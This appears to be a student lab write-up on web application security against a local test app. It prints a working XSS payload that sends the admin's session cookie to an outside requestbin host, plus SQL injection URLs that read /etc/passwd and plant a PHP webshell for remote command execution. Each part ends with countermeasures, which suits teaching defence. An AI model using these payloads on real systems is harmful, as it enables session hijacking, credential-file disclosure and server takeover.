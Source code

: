 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comment section the the home page. Indeed, there was no filtering of any kind of HTML charateres of quotes.
This allowed us to inject javascript code in the field to upload a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator looking at the web page.

#### Description of the attack

The command that we insert in the "text" field and used to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments' page, the first source of the image will send his cookie (via the `document.cookie` command) to our requestbin url and be analysed.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is that he will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror`tag of the `<img/>` in case the first source url doesn't lead to a picture file.
All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value of the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comment's text field. 
We can add escaping functions in the back-end source code to encode special HTML characteres. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

- Client-side:

Desactivate javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly so it can't be a solution on the long run.

- Server-side:

HttpOnly: 
One of the things that could be done to prevent cookie stealing could be to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is that we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charateres that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

Firstly we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then we find that the URL was not sanitized, meaning that some commands can be executed through the path, in this lab we will perfom SQL injection, meaning that we will execute SQL queries through this path.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads `/etc/passwd` and display content of this file into a form, as in the image below

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server which the mysql user, which has more rights than the www-data user. Thus, it's possible to display sensitive files, for example in this case the file containing information about users registered on the system. Before we would have also found passwords in this file, but now UNIX systems uses `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will write on our ccs folder, which as write access for everyone, our php file, that we can see on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contain php code that will fetch the "cmd" parameter in our url, and run it through a shell

```php
<?php
    system($_GET['cmd']);
?>

```

Now we have our php file on the server, we can execute code remotely

![Request whoami executed remotely](assets/whoami-req.png)

![Request uname executed remotely](assets/uname-req.png)

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning instead of injecting values directly in the command, it uses inputs as parameters, that are then formatted by only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers if an error occurs it's sometimes thrown back to the client, allowing a potential attacker to gain some information that could help him break the system (like tables structure for example)
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, so can an attacker. We have the case here by reading the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database, and forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application, you can specify every action that are allowed on each table by creating prepared functions, and use them instead of requesting directly your database. ANy request which is not part of a procedure would be rejected because in a standard usage you would not need to do this action.

##### Operating System

- Change permission on server. In server mostly recommended that directories permissions should 755 and files 644. In permissions 777 are not recommended due to security reasons. When we created the webshell, we used writing rights that were allowed in css folder, and are useless during normal execution so by removing this permission we would ensure that users can't write in this folder.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
